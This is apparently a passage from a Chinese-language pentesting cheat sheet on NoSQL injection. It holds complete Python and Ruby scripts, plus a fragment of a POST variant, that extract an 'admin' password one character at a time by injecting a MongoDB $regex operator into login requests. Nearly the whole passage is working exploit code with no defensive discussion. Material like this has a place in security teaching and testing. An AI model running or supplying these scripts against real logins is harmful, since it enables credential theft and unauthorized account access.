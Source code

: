```python
            r = requests.post(u, data = payload, headers = headers, verify = False, allow_redirects = False)
            if r.status_code == 302 and r.headers['Location'] == '/dashboard':
                print("Found one more char : %s" % (password+c))
                password += c
```

### GET 请求

Python 脚本：

```python
import requests
import urllib3
import string
import urllib
urllib3.disable_warnings()

username='admin'
password=''
u='http://example.org/login'

while True:
  for c in string.printable:
    if c not in ['*','+','.','?','|', '#', '&', '$']:
      payload=f"?username={username}&password[$regex]=^{password + c}"
      r = requests.get(u + payload)
      if 'Yeah' in r.text:
        print(f"Found one more char : {password+c}")
        password += c
```

Ruby 脚本：

```ruby
require 'httpx'

username = 'admin'
password = ''
url = 'http://example.org/login'
# CHARSET = (?!..?~).to_a # 所有 ASCII 可打印字符
CHARSET = [*'0'..'9',*'a'..'z','-'] # 数字字母加'-'
GET_EXCLUDE = ['*','+','.','?','|', '#', '&', '$']
session = HTTPX.plugin(:persistent)

while true
  CHARSET.each do |c|
    unless GET_EXCLUDE.include?(c)
      payload = "?username=#{username}&password[$regex]=^#{password + c}"
      res = session.get(url + payload)
      if res.body.to_s.match?('Yeah')
        puts "Found one more char : #{password + c}"
        password += c
      end
    end
  end
end
```
